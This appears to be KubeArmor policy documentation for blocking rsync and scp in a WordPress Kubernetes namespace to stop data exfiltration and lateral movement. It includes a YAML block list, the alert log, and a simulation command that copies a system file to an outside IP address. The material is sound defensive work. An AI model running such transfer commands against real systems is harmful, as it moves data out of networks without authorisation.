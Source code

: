# File Copy
Prevent file copy using standard utilities.

## Description
Exfiltration consists of techniques that adversaries may use to steal data from your network. Once they’ve collected data, adversaries often package it to avoid detection while removing it. This can include compression and encryption. Techniques for getting data out of a target network typically include transferring it over their command and control channel or an alternate channel and may also include putting size limits on the transmission.

## Attack Scenario
It's important to note that file copy tools can be leveraged by attackers for exfiltrating sensitive data and transferring malicious payloads into the workloads. Additionally, it can also assist in lateral movement within the system. It's crucial to take proactive measures to prevent these attacks from occurring. [**Examples:** Credential Access, Lateral movements, Information Disclosure, etc.]

## Tags
- MITRE_TA0010_exfiltration
- NIST_800-53_SI-4(18)
- MITRE_TA0008_lateral_movement

## Policy Templates
### File Copy
```yaml
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: harden-wordpress-remote-file-copy
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! remote file copy tools execution prevented.
  process:
    matchPaths:
    - path: /usr/bin/rsync
    - path: /bin/rsync
    - path: /usr/bin/scp
    - path: /bin/scp
    - path: /usr/bin/scp
    - path: /bin/scp
  selector:
    matchLabels:
      app: wordpress
  severity: 5
  tags:
  - MITRE
  - MITRE_TA0008_lateral_movement
  - MITRE_TA0010_exfiltration
  - MITRE_TA0006_credential_access
  - MITRE_T1552_unsecured_credentials
  - NIST_800-53_SI-4(18)
  - NIST
  - NIST_800-53
  - NIST_800-53_SC-4
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/usr/bin# scp /etc/ca-certificates.conf 104.192.3.74:/mine/                              
bash: /usr/bin/scp: Permission denied                                                                                   
root@wordpress-fb448db97-wj7n7:/usr/bin#     
```

#### Expected Alert
```
root:{} 35 items
Action:Block
ClusterName:d3mo
ContainerID:548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f
ContainerImage:docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845
ContainerName:wordpress
Data:syscall=SYS_EXECVE
Enforcer:AppArmor
HostName:master-node
HostPID:72178
HostPPID:30490
Labels:app=wordpress
Message:Alert! remote file copy tools execution prevented.
NamespaceName:wordpress-mysql
Operation:Process
Owner:{} 3 items
Name:wordpress
Namespace:wordpress-mysql
Ref:Deployment
PID:259
PPID:193
ParentProcessName:/bin/bash
PodName:wordpress-fb448db97-wj7n7
PolicyName:harden-wordpress-remote-file-copy
ProcessName:/usr/bin/scp
Resource:/usr/bin/scp /etc/ca-certificates.conf 104.192.3.74:/mine/
Result:Permission denied
Severity:5
Source:/bin/bash
Tags:MITRE,MITRE_TA0008_lateral_movement,MITRE_TA0010_exfiltration,MITRE_TA0006_credential_access,MITRE_T1552_unsecured_credentials,NIST_800-53_SI-4(18),NIST,NIST_800-53,NIST_800-53_SC-4
Timestamp:1696487496
Type:MatchedPolicy
UpdatedTime:2023-10-05T06:31:36.085860Z
cluster_id:2302
component_name:kubearmor
instanceGroup:0
instanceID:0
tenant_id:167
workload:1
```

## References
[MITRE Exfiltration](https://attack.mitre.org/tactics/TA0010/)



